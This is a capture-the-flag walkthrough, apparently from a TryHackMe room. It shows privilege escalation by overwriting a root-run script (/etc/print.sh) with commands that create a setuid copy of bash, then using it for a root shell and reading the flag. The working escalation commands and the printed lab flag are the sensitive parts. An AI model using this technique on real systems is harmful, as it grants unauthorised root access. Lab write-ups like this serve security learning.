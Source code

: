 1) In the /home/lennie/scripts directory I saw a planner.sh file let's open it:
```
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

2) Let's run the command to overwrite the /etc/print.sh file:
```
 echo "cp /bin/bash /tmp && chmod +s /tmp/bash" > /etc/print.sh
``` 

3) Let's see if the script is running:
```
ls -l /tmp 
total 1016
-rwsr-sr-x 1 root root 1037528 Sep 28 21:02 bash
```

4) Now we become root:
```
/tmp/bash -p
```

5) We enter the root directory:
```
cd root
```

6) Open the file root.txt:
```
bash-4.3# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```